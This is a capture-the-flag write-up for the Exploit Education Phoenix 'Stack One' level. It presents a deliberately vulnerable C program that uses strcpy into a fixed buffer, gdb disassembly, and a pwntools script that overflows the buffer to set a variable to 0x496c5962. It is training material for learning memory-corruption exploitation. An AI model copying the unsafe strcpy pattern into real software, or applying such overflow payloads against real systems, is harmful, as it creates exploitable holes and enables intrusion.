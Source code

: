 ```yaml
---
title: " Exploit Education | Phoenix | Stack One"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

This code uses **strcpy** function which is dangerous because the source size could be more than destination size.

The only difference from this level and the previous one is that it requires **changeme** to be set to a specific value **0x496c5962**.

Now we can use gdb:

```
$ gdb -q /opt/phoenix/amd64/stack-one
Reading symbols from stack-one...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
   0x000000000040066d <+0>:	push   rbp
   0x000000000040066e <+1>:	mov    rbp,rsp
   0x0000000000400671 <+4>:	sub    rsp,0x60
   0x0000000000400675 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000400678 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x000000000040067c <+15>:	mov    edi,0x400750
   0x0000000000400681 <+20>:	call   0x4004c0 <puts@plt>
   0x0000000000400686 <+25>:	cmp    DWORD PTR [rbp-0x54],0x1
   0x000000000040068a <+29>:	jg     0x4006a0 <main+51>
   0x000000000040068c <+31>:	mov    esi,0x4007a0
   0x0000000000400691 <+36>:	mov    edi,0x1
   0x0000000000400696 <+41>:	mov    eax,0x0
   0x000000000040069b <+46>:	call   0x4004d0 <errx@plt>
   0x00000000004006a0 <+51>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006a7 <+58>:	mov    rax,QWORD PTR [rbp-0x60]
   0x00000000004006ab <+62>:	add    rax,0x8
   0x00000000004006af <+66>:	mov    rdx,QWORD PTR [rax]
   0x00000000004006b2 <+69>:	lea    rax,[rbp-0x50]
   0x00000000004006b6 <+73>:	mov    rsi,rdx
   0x00000000004006b9 <+76>:	mov    rdi,rax
   0x00000000004006bc <+79>:	call   0x4004a0 <strcpy@plt>
   .....
```

We can see that  **buffer** is at **rbp-0x50** (main+69) and **changeme** is at **rbp-0x10** (main+51) so we need 64 characters to fill this gap then we can overwrite **changeme** value.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x496c5962)

print(buff)
```

```
$ /opt/phoenix/amd64/stack-one $(python solve.py)
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```




